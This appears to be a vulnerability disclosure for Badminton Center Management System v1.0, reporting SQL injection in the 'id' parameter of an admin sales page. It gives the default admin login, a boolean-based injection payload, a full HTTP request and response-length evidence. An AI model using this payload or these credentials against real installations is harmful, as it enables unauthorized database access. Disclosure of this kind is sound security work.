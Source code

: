 # Badminton Center Management System v1.0 by oretnom23 has SQL injection

The password for the backend login account is: admin/admin123

vendors: https://www.sourcecodester.com/php/15318/badminton-center-management-system-phpoop-free-source-code.html

Current database name: bcms_db,length is 7

Vulnerability File: /bcms/admin/?page=sales/view_details&id=

Vulnerability location: /bcms/admin/?page=sales/view_details&id=, id

[+] Payload: /bcms/admin/?page=sales/view_details&id=6%27%20and%20length(database())%20=7--+ // Leak place ---> id


```sql
GET /bcms/admin/?page=sales/view_details&id=6%27%20and%20length(database())%20=7--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=qq2e8htekg3g2rkgtbq38p0jnv
Connection: close
```

When length (database ()) = 6, Content-Length: 28921
![image](https://user-images.githubusercontent.com/54017627/170617460-6218abeb-1c06-4b19-9af9-fe0cbcdad07b.png)

![image](https://user-images.githubusercontent.com/54017627/170617350-95b68b70-c9c6-4e5a-b415-8a437e14b685.png)

When length (database ()) = 7, Content-Length: 29893
![image](https://user-images.githubusercontent.com/54017627/170617379-ceebe8e8-24fc-471e-b14f-6ebfcc7aba36.png)

![image](https://user-images.githubusercontent.com/54017627/170617325-765fc518-4a61-4f27-9b15-77e657765032.png)
